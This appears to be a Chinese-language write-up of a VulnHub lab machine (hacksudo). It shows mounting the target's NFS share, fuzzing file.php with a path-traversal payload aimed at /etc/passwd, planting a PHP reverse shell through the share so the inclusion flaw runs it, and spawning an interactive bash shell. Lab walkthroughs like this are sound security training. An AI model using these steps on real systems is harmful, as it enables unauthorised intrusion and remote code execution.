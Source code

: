 

# 漏洞寻找

## 反弹shell

根据之前的`nfs`寻找，尝试进行挂载

```shell
mkdir /tmp/nf
mount -t nfs 192.168.1.51:/mnt/nfs/ /tmp/nf	//挂载目标共享目录到kali本地
```

但是查看后，提示说当前系统是`root`

![](D:\stu\vulnhub\hacksudo靶场\pic-2\19.jpg)

测试之前的几个`php`文件，测试有无参数接收，然后可以导致路径遍历的，这里先测试`file.php`

```
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://192.168.1.51/file.php?FUZZ=../../../../../../etc/passwd -fs 238
//这里的-fs 238 是对返回数据大小进行过滤，238是指原界面的大小
```

![](D:\stu\vulnhub\hacksudo靶场\pic-2\20.jpg)

在浏览器测试

![](D:\stu\vulnhub\hacksudo靶场\pic-2\21.jpg)

但是经过测试，这里只能文件包含，且是本地文件包含，限制太多，很多东西看不了，或者使用一个好的字典去遍历，不过这里确定一个用户的存在`hacksudo`

不过突然想到，可以挂载的话，在其中上传一个`php`脚本，然后再通过这个文件包含，能否进行反弹呢

编辑`/usr/share/webshells/php/php-reverse-shell.php`脚本，修改地址为`kali`的地址

![](D:\stu\vulnhub\hacksudo靶场\pic-2\22.jpg)

把该文件复制到之前挂载的地址`/tmp/nf`中，因为具有同步性，所有靶机上也会有这个脚本。

使用`kali`开启监听，然后浏览器访问，确实可以

![](D:\stu\vulnhub\hacksudo靶场\pic-2\23.jpg)

然后使用`python`获得一个交互式界面

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 提权

因为开启`nfs`服务，所有查看其主要的文件，查看

![](D:\stu\vulnhub\hacksudo靶场\pic-2\24.jpg)
